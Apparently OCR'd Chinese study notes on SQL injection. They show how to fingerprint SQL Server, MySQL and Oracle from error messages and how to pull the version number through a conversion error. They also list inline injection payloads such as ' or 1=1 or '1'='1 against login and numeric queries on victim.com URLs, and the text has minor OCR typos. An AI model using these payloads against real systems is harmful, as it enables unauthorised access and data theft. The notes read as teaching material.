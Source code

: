 SqlInjection



一．识别数据库
(1)利用数据库方言
字符串型

数值型



(2)常见的sql错误
http://www.victim.com/showproducts.php?category=bikes’（添加单引号）

sql server
unclosed qutotation mark before the character string ‘attacker’;

mysql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''ann''' at line 1

oracle
ORA-01756:quoted string not properly terminated



http://www.victim.com/showproducts.php?id=bikes（id为数值）

sql server
invalid cilumn name ‘attacker’(sql server 认为该值如果不是一个数字，那么它肯定是个列名)

mysql
unknown column ‘attacker’ in ‘where id’(与sql server 反应相同)


(3)获取数据库其他信息

sql server

http://www.victim.com/shopproducts.aspx?catagory=bikes’ and 1=0/@@version;--(利用字符串转换整数错误获取数据库版本号)




二．内联SQL注入
内联注入是指向查询注入一些SQL代码后，原来的查询仍能会全部执行
(1)字符串内联注入([ ]为输入部分)
select * from administrators where username= ‘[A]’ and password=‘[B]’;

当返回所用行时
[A]:’ or 1=1 or ‘1’=’1

当返回指定行时
[A]:admin’ and 1=1 or ‘1’=’1

(2)数值型内联注入([ ]为输入部分)
select * from messages where uid=[A] order by received;

当返回所有行
[A]:1 or 1=1

当返回指定行
[A]:1 and 1=1

